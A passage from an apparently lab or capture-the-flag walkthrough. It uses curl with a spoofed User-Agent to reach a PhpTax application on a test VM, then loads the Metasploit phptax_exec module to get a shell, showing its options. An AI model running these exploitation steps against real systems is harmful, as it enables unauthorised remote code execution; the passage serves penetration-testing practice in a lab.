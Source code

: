     </VirtualHost>  
    

  
We'll need to access the server running on 8080 with a different user-agent.  
  

    
    
    root@kali:~/Desktop# curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080
    
    
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">  
    <html>  
     <head>  
      <title>Index of /</title>  
     </head>  
     <body>  
    <h1>Index of /</h1>  
    <ul><li><a href="phptax/"> phptax/</a></li>  
    </ul>  
    </body></html> 
    
    
    root@kali:~/Desktop# curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080/phptax/
    
    
     
    
    
    _lots of markup_ 

  
So what should we do next?  

## 3\. Getting a shell, and root

  

    
    
    msf > **use exploit/multi/http/phptax_exec**  
      
    msf exploit(phptax_exec) > **show options**  
      
    Module options (exploit/multi/http/phptax_exec):  
      
       Name       Current Setting  Required  Description  
       ----       ---------------  --------  -----------  
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]  
       RHOST                       yes       The target address  
       RPORT      80               yes       The target port  
       SSL        false            no        Negotiate SSL/TLS for outgoing connections  
       TARGETURI  /phptax/         yes       The path to the web application  
       VHOST                       no        HTTP server virtual host  
      
      
    Exploit target:  
      
       Id  Name  
       --  ----  
       0   PhpTax 0.8  
      
      